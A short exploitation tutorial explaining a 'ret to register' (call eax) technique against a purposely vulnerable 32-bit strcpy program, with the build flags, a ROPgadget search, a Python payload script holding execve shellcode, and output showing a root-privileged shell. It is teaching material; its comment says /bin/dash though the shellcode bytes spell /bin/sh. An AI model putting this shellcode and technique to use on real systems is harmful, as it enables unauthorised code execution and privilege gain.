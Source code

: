 Tools:
1. objdump
2. ROPgadget

Binary protection:
1. ASLR

Compilation: Dynamic

Architecture: x86

Operating System: Linux (Debian)
#1. Explanation
Today I will show you an other method to exploit Return Oriented Programming. It name is "ret to register". Thanks to register we will be able to execute a shellcode.

In assemby language (x86/x64) when we call a function, his return value is stored in the RAX/EAX register. For exemple, the strcpy return a pointer to the destination string. It means that if we overflow the saved "RIP/EIP" register with a gadget like "call eax/jmp eax" we will jump to the stack wich contain us shellcode !

This method is very usefull but it needed to have the NX bit disable.
#2. Vulnerable binary
<pre><code class="cpp">#include &lt;string.h&gt;

// gcc main.c -z execstack -fno-stack-protector -m32

char *vuln(char *str)
{
  char buf[128];

  strcpy(buf, str);
}

int main(int ac, char **av)
{
  vuln(av[1]);
  return 0;
}
</code></pre>
It's a very simple program that contain an overflow to the "strcpy" call. We will use the overflow to exploit this program.
#3. The payload
The payload will look like:
<pre><code class="cpp">+-----------------+
|    shellcode    |
+-----------------+
|     padding     |
+-----------------+
|    call eax     |
+-----------------+</code></pre>
The only things we need is the "call eax" gadget, always thanks to ROPgadget:
<pre><code class="bash">$ ROPgadget --binary a.out | grep "call eax"
...
0x08048363 : call eax
...
</code></pre>
For the shellcode, I choose simple "execve('/bin/dash', NULL, NULL)", 38 bytes lenght.
And that's it for the payload !

The whole payload will look:
<pre><code class="python">#!/usr/bin/env python2.7

from struct import pack

#
# Shellcode execve("/bin/dash", NULL, NULL) (38 bytes)
#

shellcode = "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

payload = shellcode + '\x90' * 102 # Padding

payload += pack("&lt;I", 0x08048363) # call eax

print payload
</code></pre>
#4. Exploitation
We test our payload:
<pre><code class="bash">$ ./a.out $(python rop.py)
id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)</code></pre>
Done.
